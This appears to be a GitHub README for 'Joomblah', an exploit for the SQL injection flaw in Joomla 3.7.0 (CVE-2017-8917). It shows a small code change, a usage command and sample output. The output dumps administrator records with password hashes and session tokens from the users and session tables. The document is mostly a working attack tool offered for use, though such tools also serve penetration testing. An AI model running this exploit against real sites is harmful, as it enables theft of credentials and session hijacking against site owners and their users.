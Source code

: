 # Joomblah
Exploit for Joomla 3.7.0 (CVE-2017-8917)

Explanation about the vulnerability:

https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html 

## Code modification
Modification in line 46

```python
...
 result += value.decode('utf-8')
...
```

## Usage
Point the joomblah.py script at the vulnerable Joomla 3.7.0 install, it may take some time, but it will dump the users and session tables.

```
$ python joomblah.py http://127.0.0.1:8080
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: rlbre_users
  -  Found table: tgukl_users
  -  Extracting users from rlbre_users
 [$] Found user ['361', 'Super User', 'admin', 'admin@example.com', '$2y$10$G4ivaKw71R4uIvuHYliSke5pHoh1Q.xm.Sk29d8zpzx4xJBfPoyEK', '', '']
  -  Extracting sessions from rlbre_session
 [$] Found session ['361', '3rfv8kql26s6kvimpbchneom85', 'admin']
  -  Extracting users from tgukl_users
 [$] Found user ['883', 'Super User', 'admin', 'admin@example.com', '$2y$10$5Za2zpqTdRo5x19cvO5biOKeiyOi2iTQ3u0SSLtcs6uvIvJhvM9aG', '', '']
  -  Extracting sessions from tgukl_session
```
## Licence
Licenced under the [WTFPL](http://www.wtfpl.net/)
Credits Original code by @XiphosResearch
